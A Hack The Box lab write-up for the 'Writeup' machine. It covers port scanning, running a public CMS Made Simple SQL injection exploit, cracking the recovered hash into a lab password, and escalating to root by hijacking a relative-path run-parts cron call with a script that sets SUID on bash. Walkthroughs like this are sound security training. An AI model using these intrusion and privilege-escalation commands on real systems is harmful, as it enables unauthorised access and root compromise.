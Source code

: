 # HTB - Writeup

#### Ip: 10.129.134.255
#### Name: Writeup
#### Rating: Easy

----------------------------------------------------------------------

![Writeup.png](../assets/writeup_assets/Writeup.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.10.138
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-04 15:30 CDT
Nmap scan report for 10.10.10.138
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 372e1468aeb9c2342b6ed992bcbfbd28 (ECDSA)
|_  256 93eaa84042c1a83385b35600621ca0ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.12 seconds
```

Checking out the page on port 80 it looks like a blog in the making, but doesn't yet contain any real content.

![writeup_site.png](../assets/writeup_assets/writeup_site.png)

There is a note about DOS protection in place, so I'll hold off on directory fuzzing and Nikto for now.

Nmap catches that there is a robots.txt page listing `/writeup` as a disallowed entry.

Navigating to that page we find a couple of HTB writeups:

![writeup_writeup.png](../assets/writeup_assets/writeup_writeup.png)

Using Wappalyzer we can see the site is running CMS Made Simple.

### Exploitation

Looking for public expploits I find: https://gist.github.com/kriss-u/321f0418778697e2ec919f04664ceb4b

Lets give the exploit a shot:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ python cms_made_simple_sqli.py -u http://10.10.10.138/writeup/ 
```

Nice, the exploit was able to get jkr's password hash:

![writeup_pw.png](../assets/writeup_assets/writeup_writeup_pw.png)

Lets add the hash and the salt to a file called jkr_hash and attempt to crack it:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ cat >> jkr_hash
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashid jkr_hash                                    
--File 'jkr_hash'--
Analyzing '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807'
[+] MD5 
```

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashcat jkr_hash /usr/share/wordlists/rockyou.txt -m 20
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```
Awesome, Hashcat was able to crack this for us: `jkr:raykayjay9`

From here we can SSH in and grab the user.txt flag:

![writeup_user_flag.png](../assets/writeup_assets/writeup_user_flag.png)

### Privilege Escalation

Loading linpeas we see that we are able to write to `/usr/local/bin` and `/usr/local/games` which are also in our `$PATH`. This is definitely uncommon enough to warrant looking into.

![writeup_lp.png](../assets/writeup_assets/writeup_lp.png)

Lets load up pspy64 and get it listening for processes and then SSH in again in a separate shell:

![writeup_cron.png](../assets/writeup_assets/writeup_cron.png)

Interesting, it appears that once we SSH'd in, the root user issues a cronjob using `run-parts`, but luckily for us it does not use the absolute path. We should be able to hijack this by writing our own malicious run-parts file in `/usr/local/bin` and then it will execute as the root user when an SSH connection is opened. Lets try it:

```
jkr@writeup:/usr/local/bin$ echo "/bin/chmod 4755 /bin/bash" > /usr/local/bin/run-parts
jkr@writeup:/usr/local/bin$ chmod +x run-parts
<Start a new SSH session here>
jkr@writeup:/usr/local/bin$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
bash-4.4# hostname
writeup
```

Nice that worked! You can see above `run-parts` will SUID bit on bash (something only the root user could do), and when I started a new SSH session the root cronjob executed the script and I was able to drop into a root shell.

![writeup_root_flag.png](../assets/writeup_assets/writeup_root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------------------
